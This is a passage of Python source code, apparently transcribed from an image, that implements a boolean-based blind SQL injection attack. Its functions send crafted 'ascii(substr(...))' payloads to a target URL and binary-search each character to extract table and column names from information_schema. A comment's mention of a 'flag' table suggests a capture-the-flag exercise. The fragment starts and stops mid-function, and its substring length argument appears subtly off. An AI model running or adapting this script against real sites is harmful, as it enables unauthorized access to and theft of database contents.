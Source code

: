 ```python
    # sql_payload = "select TABLE_NAME from information_schema.TABLES where TABLE_SCHEMA = database() limit 0,1"
    # 这里解决了一个痛点：对于多个表名，通过group_concat()链接，那么就不需要去改变`limit 0,1`
    sql_payload = "select group_concat(TABLE_NAME) from information_schema.TABLES where TABLE_SCHEMA = database()"

    # all visible character is: 32( )->126(~)
    j = 1
    exit_flag = False
    while not exit_flag:
        # always assume we will exit in this loop
        exit_flag = True
        low = 32
        high = 126
        while high >= low:
            mid = (low + high) // 2
            payload = f"1 and ascii(substr(({sql_payload}),{j},{j}))={mid}"
            r = requests.get(base_url + payload)
            if mark in r.text:
                table_name += chr(mid)
                print('table:', table_name)
                exit_flag = False
                break
            pass

            # another test for narrow down left or right range to search
            payload = f"1 and ascii(substr(({sql_payload}),{j},{j}))>{mid}"
            r = requests.get(base_url + payload)
            if mark in r.text:
                low = mid + 1
            else:
                high = mid - 1
            pass
        j += 1
    return table_name


def probe_column_binary(table_name):
    column_name = ''
    # sql_payload = "select TABLE_NAME from information_schema.TABLES where TABLE_SCHEMA = database() limit 0,1"
    # payload: select group_concat(COLUMN_NAME) from information_schema.COLUMNS where TABLE_NAME = 'flag' and TABLE_SCHEMA = database()
    sql_payload = f"select group_concat(COLUMN_NAME) from information_schema.COLUMNS where TABLE_NAME = '{table_name}' and TABLE_SCHEMA = database()"

    # all visible character is: 32( )->126(~)
    j = 1
    exit_flag = False
    while not exit_flag:
        # always assume we will exit in this loop
        exit_flag = True
        low = 32
        high = 126
        while high >= low:
            mid = (low + high) // 2
            payload = f"1 and ascii(substr(({sql_payload}),{j},{j}))={mid}"
            r = requests.get(base_url + payload)
            if mark in r.text:
                column_name += chr(mid)
                print('column:', column_name)
                exit_flag = False
                break
```
